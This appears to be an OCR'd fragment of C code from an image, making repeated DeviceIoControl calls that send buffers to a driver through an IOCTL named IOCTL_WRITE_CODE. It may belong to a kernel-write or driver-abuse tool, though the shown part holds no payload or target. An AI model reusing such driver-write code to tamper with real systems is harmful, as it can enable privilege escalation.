 ```c
				DWORD bytesReturned5 = 0;
				DWORD bytesReturned6 = 0;
				DWORD bytesReturned7 = 0;
				DWORD bytesReturned8 = 0;
				DWORD bytesReturned9 = 0;
				DWORD bytesReturned10 = 0;
				DWORD bytesReturned11 = 0;

				BOOL interact2 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf3,
					sizeof(inBuf3),
					&inBuf3,
					sizeof(inBuf3),
					&bytesReturned3,
					NULL
				);

				BOOL interact3 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf4,
					sizeof(inBuf4),
					&inBuf4,
					sizeof(inBuf4),
					&bytesReturned4,
					NULL
				);

				BOOL interact4 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf5,
					sizeof(inBuf5),
					&inBuf5,
					sizeof(inBuf5),
					&bytesReturned5,
					NULL
				);

				BOOL interact5 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf6,
					sizeof(inBuf6),
					&inBuf6,
					sizeof(inBuf6),
					&bytesReturned6,
					NULL
				);

				BOOL interact6 = DeviceIoControl(
					driverHandle,
					IOCTL_WRITE_CODE,
					&inBuf7,
					sizeof(inBuf7),
					&inBuf7,
					sizeof(inBuf7),
					&bytesReturned7,
					NULL
				);

```
